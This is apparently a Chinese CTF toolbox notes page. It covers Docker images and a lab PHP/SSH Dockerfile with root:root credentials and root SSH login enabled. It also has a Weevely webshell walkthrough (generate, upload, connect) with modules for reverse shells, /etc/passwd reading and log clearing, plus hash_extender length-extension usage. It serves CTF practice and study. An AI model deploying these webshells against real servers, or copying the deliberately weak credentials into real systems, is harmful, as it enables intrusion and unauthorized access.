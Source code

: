 # 工具

## 镜像
- [ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
- [wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
- [mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)
- [remnux/ciphey - Docker Image | Docker Hub](https://hub.docker.com/r/remnux/ciphey)
- [sonarqube - Official Image | Docker Hub](https://hub.docker.com/_/sonarqube)

### `PHP` manual
[PHP: Download documentation](https://www.php.net/download-docs.php)

```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```

### `PHP` 服务器

```dockerfile
FROM php:7.2-apache
LABEL Author="Momean"
ENV TZ=Asia/Shanghai
COPY config /tmp/
RUN ln -snf /usr/share/zoneinfo/$TZ /etc/localtime && echo $TZ > /etc/timezone; \
    sed -i 's/deb.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list \
    && sed -i 's/security.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list
RUN apt-get update -y; apt-get install -y net-tools wget openssh-server
RUN mv /tmp/docker-php-entrypoint /usr/local/bin/docker-php-entrypoint
RUN chown -R www-data:www-data /var/www/html \
    && chmod +x /usr/local/bin/docker-php-entrypoint \
    && mv /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
# 取消pam限制
RUN sed -ri 's/session    required     pam_loginuid.so/#session required pam_loginuid.so/g' /etc/pam.d/sshd
# 修改root密码
RUN echo root:root | chpasswd
RUN groupadd -g 1001 ctf
RUN useradd ctf -g ctf -u 1001
# 一行命令修改用户密码
RUN echo ctf:ctf | chpasswd ctf
RUN mkdir -p /home/ctf
# 允许root登录
RUN sed -i 's/#PermitRootLogin prohibit-password/PermitRootLogin yes/g' /etc/ssh/sshd_config
# 似乎该目录不存在无法运行sshd
RUN mkdir -p /var/run/sshd
# # 生成公钥
# RUN ssh-keygen -q -t rsa -b 2048 -f /etc/ssh/ssh_host_rsa_key -P '' -N ''
RUN /usr/sbin/sshd -D &
RUN rm -rf /tmp/*
WORKDIR /var/www/html
EXPOSE 80
EXPOSE 22
```

如果`ssh`失败，提示`kex_exchange_identification: Connection closed by remote host`，可以尝试重启`sshd`，使用`systemctl restart sshd.service`，
但是需要进入特权模式`docker run --rm -d -p 8081:80 -p 2222:22 -it --privileged -v "$PWD":/var/www/html php72-ctf /sbin/init` 重要的是其中`--privileged`以及`/sbin/init`

如果出现`WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!`的错误，可以通过`ssh-keygen -R <host>`重置`docker`主机的`ssh`公钥，如果是特定端口，需要`ssh-keygen -R "[127.0.0.1]:2222"`这种格式。

## `Weevely`
`kali`自带的`webshell`管理工具

1. 生成木马文件，在`weebely3`文件夹中会生成一个连接密码为123的`shell.php`
```sh
./weevely.py generate <password> shell.php
```

2. 上传`shell`文件到目标服务器

3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```

4. 连上之后可以执行指令了

5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```

## `Hash_extender`
[iagox86/hash_extender](https://github.com/iagox86/hash_extender)

哈希扩展攻击的实现

```sh
# clone后将makefile中改为-Wno-deprecated-declarations再进行make
- CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+ CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations

# 使用方式
hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5

# H(secret + data)
# 使得自行拼凑的 H(secret + data + append)有效
# secret其实可以随便填，反正随便猜个长度
```

## `Metasploit`
`msfconsole`启动

常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。



